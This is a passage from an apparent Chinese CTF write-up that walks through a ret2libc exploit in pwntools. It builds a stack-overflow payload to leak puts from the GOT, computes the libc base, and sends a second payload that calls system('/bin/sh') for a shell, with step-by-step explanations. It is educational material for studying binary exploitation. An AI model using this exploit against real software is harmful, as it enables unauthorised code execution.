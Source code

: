 这里获取了puts函数在PLT(程序链接表)和GOT(全局偏移表)的地址，后面泄露用

## 构造payload1

```python
payload = b'a'*(0xa+8)
payload+=p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main_addr)
p.sendline(payload)
```

首先溢出覆盖溢出点之前的内存区域，直到返回地址的位置。

接着`pop_rdi`+`puts_GOT`，将puts函数在GOT表中的地址弹入rdi。

通过`puts_plt`调用puts函数，打印出rdi寄存器中此时的值，也就是puts函数在GOT表中的实际位置

泄露完成后，返回main函数，等待下一次payload

## 获取puts的实际地址，并计算libc基址

```python
puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
print(hex(puts_addr))
libc_base = puts_addr-libc.sym['puts']
print(hex(libc_base))
```

- `u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))`
  - `recvuntil('\x7f)`为接收输出直到遇到第一个`\x7f`字节，
  - `[-6:]`为取最后6个字节
  - `ljust(8,b'\x00')`为将字节串填充到8个字节
  - `u64`将字节串转换为64位无符号整数
- `print(hex(puts_addr))`
  - 将`puts`函数的真正地址打印出来（其实不加这一步也没事）
- `libc_base = puts_addr-libc.sym['puts']`
  - 这里是计算libc库的基地址，因为libc.sym['puts']是`puts`函数在libc中的偏移地址，所以这样可以得到基地址，为后面构造payload2准备

## 构造payload2，getshell

```python
system = libc_base+libc.sym['system']
binsh = libc_base+next(libc.search(b'/bin/sh'))
payload2 = b'a'*(0xa+8)
payload2+=p64(pop_rdi)+p64(binsh)+p64(ret)+p64(system)
p.sendline(payload2)
p.interactive()
```

- `binsh = libc_base+next(libc.search(b'/bin/sh'))`
  - `libc.search(b'/bin/sh')`为一个生成器，用于在libc库中搜索包含/bin/sh字符串的所有地址，而`b'/bin/sh`意为是一个字节串
  - `next(libc.search(b'/bin/sh'))`即调用next函数获取生成器的下一个值，简单来说，在这里就是从生成器里获取第一个匹配的地址

## ret2libc原理介绍

